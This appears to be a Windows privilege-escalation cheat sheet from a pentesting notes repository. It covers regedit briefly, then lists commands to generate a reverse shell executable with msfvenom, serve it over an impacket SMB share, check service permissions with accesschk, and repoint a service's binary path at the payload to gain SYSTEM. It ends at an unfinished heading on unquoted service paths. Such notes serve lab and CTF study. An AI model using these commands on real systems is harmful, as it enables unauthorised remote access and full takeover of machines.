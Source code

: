 ![image](https://github.com/user-attachments/assets/0752dccc-96d7-43f1-afb0-fefa3aca77c4)


### Registry Editor [regedit.exe]

It is an hierarchical database used to store information necessary to configure the system for one or more users, applications, and hardware devices.

- One way to use regedit is `regedit` or `regedt32`.

  ![image](https://github.com/user-attachments/assets/12c25d18-9c07-453e-af44-40c365808f5e)


### Windows Privesc

- Connecting to rdps with `xfreerdp`

      xfreerdp /u:<user> /p:<password> /cert:ignore /v:<host>

### Generating and sending  revshells

- Generating a windows reverse shell executable

      msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your ip> LPORT=<listening port> -f exe -o saucy.exe

- Setting up an smb server with python impacket

      python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .

- Copy to the machine

      copy \\<your ip>\kali\<filename> <folder to send to>


### Abusing User's permissions

- To check a user's permission,use `accesschk.exe`

      accesschk.exe /accepteula -uwcqv user <service>

![image](https://github.com/user-attachments/assets/4b9a5bc3-af80-4f15-b6be-82f5b9be749c)

- Check if a binary runs with SYSTEM privileges

      sc qc [service name]
- Modify the config path to our reverseshell's path

      sc config [service name] binpath="\"<reverseshell path>\""

- Then net start `service name` to trigger it

![image](https://github.com/user-attachments/assets/1fa7dbed-e1de-4aa8-9bdb-44ded59ec6a2)

### Unquoted path services

- Exploiting services with unquoted paths
